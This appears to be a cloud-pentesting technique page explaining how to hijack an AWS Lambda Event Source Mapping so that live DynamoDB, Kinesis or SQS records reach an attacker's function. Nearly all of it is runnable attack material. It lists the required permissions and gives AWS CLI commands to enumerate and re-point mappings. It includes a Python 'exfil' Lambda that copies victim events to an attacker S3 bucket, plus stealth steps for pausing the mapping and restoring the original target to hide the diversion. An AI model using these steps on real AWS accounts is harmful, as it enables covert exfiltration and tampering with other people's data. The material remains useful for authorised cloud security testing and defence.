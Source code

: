 # AWS - Hijack Event Source Mapping to Redirect Stream/SQS/Kinesis to Attacker Lambda

Abuse `UpdateEventSourceMapping` to change the target Lambda function of an existing Event Source Mapping (ESM) so that records from DynamoDB Streams, Kinesis, or SQS are delivered to an attacker-controlled function. This silently diverts live data without touching producers or the original function code.

## Impact
- Divert and read live records from existing streams/queues without modifying producer apps or victim code.
- Potential data exfiltration or logic tampering by processing the victim's traffic in a rogue function.

## Required permissions
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- Ability to deploy or reference an attacker-controlled Lambda (`lambda:CreateFunction` or permission to use an existing one).

## Steps

1) Enumerate event source mappings for the victim function
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
  --query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
  --query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
  --query 'EventSourceMappings[0].EventSourceArn' --output text)
```

2) Prepare an attacker-controlled receiver Lambda (same region; ideally similar VPC/runtime)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
    print(json.dumps(event)[:3000])
    b = os.environ.get('EXFIL_S3')
    if b:
        k = f"evt-{int(time.time())}.json"
        boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
    return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
  --function-name ht-esm-exfil \
  --runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
  --handler exfil.lambda_handler --zip-file fileb://exfil.zip \
  --query FunctionArn --output text)
```

3) Re-point the mapping to the attacker function
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```

4) Generate an event on the source so the mapping fires (example: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```

5) Verify the attacker function receives the batch
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```

6) Optional stealth
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```

Notes:
- For SQS ESMs, the execution role of the Lambda processing the queue needs `sqs:ReceiveMessage`, `sqs:DeleteMessage`, and `sqs:GetQueueAttributes` (managed policy: `AWSLambdaSQSQueueExecutionRole`).
- The ESM UUID remains the same; only its `FunctionArn` is changed, so producers and source ARNs are untouched.


